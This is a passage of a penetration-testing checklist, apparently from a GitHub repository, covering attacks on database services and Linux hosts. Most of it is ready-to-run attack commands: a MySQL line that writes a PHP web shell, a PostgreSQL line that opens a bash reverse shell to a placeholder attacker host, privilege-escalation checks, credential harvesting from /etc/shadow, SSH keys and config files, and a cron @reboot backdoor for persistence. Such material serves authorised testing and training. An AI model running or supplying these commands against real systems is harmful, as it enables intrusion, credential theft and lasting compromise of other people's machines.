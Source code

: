 - [ ] **MySQL (3306)**
  - [ ] Default creds: `mysql -h TARGET -u root -p` (try: empty, root, password)
  - [ ] Enumerate databases: `SHOW DATABASES;`
  - [ ] Web shell: `SELECT "<?php system($_GET['c']); ?>" INTO OUTFILE '/var/www/html/shell.php';`

- [ ] **PostgreSQL (5432)**
  - [ ] Default creds: `psql -h TARGET -U postgres` (password: postgres)
  - [ ] RCE: `COPY (SELECT '') TO PROGRAM 'bash -c "bash -i >& /dev/tcp/ATTACKER/4444 0>&1"';`

- [ ] **MongoDB (27017)**
  - [ ] No-auth: `mongo --host TARGET`
  - [ ] Enumerate: `show dbs`, `db.users.find()`

- [ ] **Elasticsearch (9200)**
  - [ ] Check access: `curl http://TARGET:9200/`
  - [ ] List indices: `curl http://TARGET:9200/_cat/indices`
  - [ ] Search for credentials: `curl http://TARGET:9200/_search?q=password`

- [ ] **Memcached (11211)**
  - [ ] Connect: `telnet TARGET 11211`
  - [ ] Dump keys: `stats items`, `stats cachedump 1 100`

### Linux Exploitation
- [ ] **Initial access attempts**
  - [ ] Exploit known CVEs for service versions
  - [ ] Default credentials on services
  - [ ] SSH key reuse from other systems
  - [ ] Web application vulnerabilities (see Web section)

- [ ] **Privilege escalation**
  - [ ] `sudo -l` - ALWAYS CHECK FIRST
  - [ ] SUID binaries: `find / -perm -4000 -type f 2>/dev/null`
  - [ ] Docker group: `groups` (if docker, instant root)
  - [ ] Writable /etc/passwd: `ls -la /etc/passwd`
  - [ ] Cron jobs: `cat /etc/crontab`, check writable scripts
  - [ ] Capabilities: `getcap -r / 2>/dev/null`
  - [ ] Kernel exploits: `searchsploit linux kernel $(uname -r)`

- [ ] **Automated enumeration**
  - [ ] LinPEAS: `./linpeas.sh`
  - [ ] Linux Smart Enumeration: `./lse.sh`
  - [ ] LinEnum: `./LinEnum.sh`

### Linux Post-Exploitation
- [ ] **Credential harvesting**
  - [ ] `/etc/shadow` (if readable)
  - [ ] SSH keys: `find / -name id_rsa 2>/dev/null`
  - [ ] History files: `.bash_history`, `.mysql_history`
  - [ ] Config files: `grep -r "password" /etc/ /var/www/`
  - [ ] Environment variables: `env`

- [ ] **Persistence**
  - [ ] SSH keys: Add to `~/.ssh/authorized_keys`
  - [ ] Cron jobs: `(crontab -l; echo "@reboot /tmp/.backdoor") | crontab -`
  - [ ] Startup scripts: Modify `/etc/rc.local`
